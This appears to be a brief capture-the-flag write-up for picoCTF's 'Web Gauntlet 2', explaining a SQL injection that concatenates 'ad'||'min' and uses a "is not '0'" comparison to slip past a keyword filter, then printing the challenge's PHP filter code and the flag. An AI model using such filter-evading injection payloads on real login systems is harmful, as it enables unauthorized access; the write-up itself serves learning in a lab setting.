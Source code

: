 ## WEB GAUTLET 2
 in this challenge the filters are quite solid i cant use admin
 ```
 Filters: or and true false union like = > < ; -- /* */ admin
 ```
 i cant use the semicolon not comment also besically everything is filtered but every time we used only username section to bypas it seems we need to get aprove from password ssection <br>
 because everytime we either used to end the sentense at admin part only or else we used to comment out the password part
<br>
but this time its very new challenge so i want something true to appear in password section
```
SELECT username, password FROM users WHERE username='ad'||'min' AND password='pass'
```
so i tried doing some thing better 1' is '1 but didnt work i tried i tried this phrase
```
SELECT username, password FROM users WHERE username='ad'||'min' AND password='' is not '0'
```
 reason for this to work ' ' is not equal to string '0'
 so we get true in password section and it works
 ```
 <?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}
?>
```
the flag is **picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}**

## WEB GAUTLET 3
